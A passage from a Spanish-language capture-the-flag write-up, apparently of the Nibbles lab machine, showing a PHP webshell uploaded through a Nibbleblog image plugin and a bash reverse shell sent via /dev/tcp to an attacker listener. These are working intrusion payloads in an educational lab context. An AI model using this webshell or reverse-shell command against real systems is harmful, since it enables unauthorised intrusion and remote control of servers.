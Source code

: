 Vamos a proceder con la intrusión intentando subir una serie de archivos que permitan obtener una shell reversa e interactiva en nuestra máquina, para esto accedemos a nuestra carpeta `exploit`.

```bash
cd ../exploit
```

## INTRUSION WEBSHELL PHP + REVERSE SHELL BASH

Creamos un archivo `webshell.php` y generamos un código para lograr una shell a nivel web en el servidor afectado.

```bash
vim webshell.php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Subimos el archivo en el plugin `My image` y hacemos una prueba ejecutando un comando de reconocimiento.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```

<p align="center">  
<img src="/assets/images/nibbles/09-page7.png">        
</p>

Obteniendo una prueba exitosa, procedemos a activar un listener.

```bash
nc -lnvp 4564
```

Generamos una reverse shell en bash con la siguiente petición web.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/4564 0>%261"
```

<p align="center">
<img src="/assets/images/nibbles/10-page8.png"> 